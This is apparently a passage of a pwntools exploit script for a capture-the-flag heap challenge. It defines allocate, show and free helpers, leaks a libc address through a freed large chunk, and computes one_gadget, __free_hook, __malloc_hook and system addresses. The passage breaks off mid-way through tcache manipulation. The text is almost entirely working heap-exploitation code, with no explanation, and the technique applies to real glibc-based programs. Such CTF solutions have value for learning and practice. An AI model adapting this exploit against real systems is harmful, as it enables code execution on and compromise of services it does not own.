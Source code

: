 ```
elf = ELF("chall")

def create(size,name,call):
	p.recvuntil("choice:")
	p.sendline("1")
	p.recvuntil("name\n")
	p.sendline(str(size))
	p.recvuntil("name:\n")
	p.send(name)
	p.recvuntil("call:\n")
	p.send(call)	
	sleep(0.1)

def show(index):
	p.recvuntil("choice:")
	p.sendline("2")
	p.recvuntil("index:\n")
	p.sendline(str(index))

def free(index):
	p.recvuntil("choice:")
	p.sendline("4")
	p.recvuntil("index:\n")
	p.sendline(str(index))

'''
debug info
bb 0xCB9
bb 0xEEC

'''

create(0x440,"1"*0x100,"AAA") #0-8 #0 a big enough chunk won't in tcache.
create(0x18,"1"*0x100,"AAA") #1
free(0)
show(0)
p.recvuntil("name:\n")
leak = u64(p.recv(6).ljust(8,'\x00'))
libc.address = leak  - (0x7fae5b0eeca0 - 0x7fae5af0a000)
one_gadget = libc.address  + 0xdf991
free_hook = libc.sym['__free_hook']
malloc_hook = libc.sym['__malloc_hook']
system = libc.sym['system']
print("[+] leak: " + str(hex(leak)))
print("[+] leak: " + str(hex(libc.address)))
print("[+] one_gadget: " + str(hex(one_gadget)))
print("[+] system: " + str(hex(libc.sym['system'])))
print("[+] free_hook: " + str(hex(libc.sym['__free_hook'])))
print("[+] malloc_hook: " + str(hex(libc.sym['__malloc_hook'])))
create(0x440,"1"*0x100,"AAA") #2 fill it 
#pause()

for i in range(9):
	create(0x68,"1"*0x68,"AAA") #3-11

for i in range(7):
	free(i+3) # 3-9

create(0x68,"1"*0x68,"AAA") #12
create(0x68,"1"*0x68,"AAA") #13

# fill the chunk
free(10)
```